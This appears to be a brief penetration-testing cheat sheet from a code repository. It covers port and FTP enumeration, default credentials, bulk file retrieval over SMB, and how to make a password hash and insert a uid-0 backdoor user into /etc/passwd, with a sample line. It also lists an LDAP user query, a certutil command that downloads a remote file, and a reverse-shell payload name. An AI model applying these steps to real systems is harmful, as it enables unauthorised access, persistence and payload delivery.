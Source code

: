 1. Enumeration
  nmap port scan
  Common ports
  FTP
    Anonymous Login?
    Common Credentials? admin/admin
    
    
   smbclient get all files:
   recurse (toggles recursive mode)
   prompt (toggles Y/N requests)
   mget *
  
  Creating password hashes for /etc/passwd  or /etc/shadow
  
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
  Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```


## Command Line 
### Linux  

### Windows  
"Grep" function in Windows  
`findstr /I "<string>"` 

Query LDAP for users
`ldapsearch -H ldap://[IP]:[Port] -x -LLL -s sub -b "dc=<dcname>,dc=<dcname>"`

Downloading from Windows Command line  
`certutil.exe -urlcache -f http://target/remotefile localfile`

### Notes  

- when generating a shell on windows, use windows/shell_reverse_tcp
